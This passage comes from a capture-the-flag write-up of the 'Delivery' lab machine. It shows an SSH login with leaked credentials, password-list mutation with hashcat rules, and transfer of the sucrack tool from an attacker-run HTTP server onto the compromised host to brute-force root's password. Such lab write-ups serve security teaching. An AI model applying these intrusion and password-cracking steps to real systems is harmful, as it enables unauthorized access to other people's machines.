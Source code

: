 ![ssh](/assets/{{ imgDir }}/ssh.png)

We can try to log in over SSH with the credentials we found in the chat. As shown above, this works and we get a shell as the `maildeliverer` user! The next step is to crack the `root` user's password to get a root shell.

# Privilege Escalation
We start by generating passwords based on the string 'PleaseSubscribe!' which we found earlier. This can be done using hashcat by executing `echo PleaseSubscribe! | hashcat -r /usr/share/hashcat/rules/best64.rule --stdout > passwords`. This command uses hashcat's rule engine to mutate the string 'PleaseSubscribe!' into similar strings. The `-r` flag is used to specify a `.rule` file which is simply a file containing mutation rules that describe how a string should be modified. Each line corresponds to one mutation. For example, the `/usr/share/hashcat/rules/best64.rule` file contains the lines `so0`, `si1`, `se3`. These rules substitute the "o", "i" and "e" characters with the "0", "1" and "3" characters respectively. For example, applying these three rules to the string "leetify" would result in the string "l33t1fy". A great way to learn the syntax of the rules is hashcat's [official documentation for rule based attacks](https://hashcat.net/wiki/doku.php?id=rule_based_attack).

A tool which can guess user passwords, without requiring password hashes, is [sucrack](https://github.com/hemp3l/sucrack/). The drawback of this tool is, however, that it has to be executed locally on the target host. As the name suggests, the tool uses the `su` command, which is normally used to get an interactive shell as a specific user, to brute force the password of a particular user. Like conventional cracking tools, sucrack can read a wordlist and attempt each password in that wordlist. It attempts to use each password in the wordlist until it either runs out of passwords or finds the correct password.

We can download the sucrack project from its [Github repository](https://github.com/hemp3l/sucrack/) as a zip file, using `wget`. Then, we can transfer the file to the target host by executing `python3 -m http.server` to start a python web server and downloading the zip file using `wget` on the compromised host, as demonstrated in the two code blocks below. We can also download the `passwords` file we generated earlier using the same technique. Once we have downloaded the two files, we execute `unzip sucrack.zip` to extract the zip file. This results in the creation of a directory named "sucrack-master" which we navigate to by executing `cd sucrack-master`.

{% highlight none linenos %}
┌──(kali㉿kali)-[/tmp/x]
└─$ wget https://github.com/hemp3l/sucrack/archive/refs/heads/master.zip -O sucrack.zip
[...]
2021-12-01 14:20:38 (744 KB/s) - ‘sucrack.zip’ saved [164375]

┌──(kali㉿kali)-[/tmp/x]
└─$ sudo python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
{% endhighlight %}

{% highlight none linenos %}
maildeliverer@Delivery:~$ wget http://10.10.16.3/sucrack.zip
[...]
2021-12-01 08:23:12 (599 KB/s) - ‘sucrack.zip’ saved [164375/164375]

maildeliverer@Delivery:~$ wget http://10.10.16.3/passwords
[...]
2021-12-01 08:31:00 (262 MB/s) - ‘passwords’ saved [1177/1177]

maildeliverer@Delivery:~$ unzip sucrack.zip
Archive:  sucrack.zip
c738b9a6d78b6aa517767d7621480a3f3dfb4dd6
   creating: sucrack-master/
  inflating: sucrack-master/COPYING  
  inflating: sucrack-master/ChangeLog  
[...] 
  inflating: sucrack-master/src/worker.h
maildeliverer@Delivery:~$ cd sucrack-master/
maildeliverer@Delivery:~/sucrack-master$
{% endhighlight %}
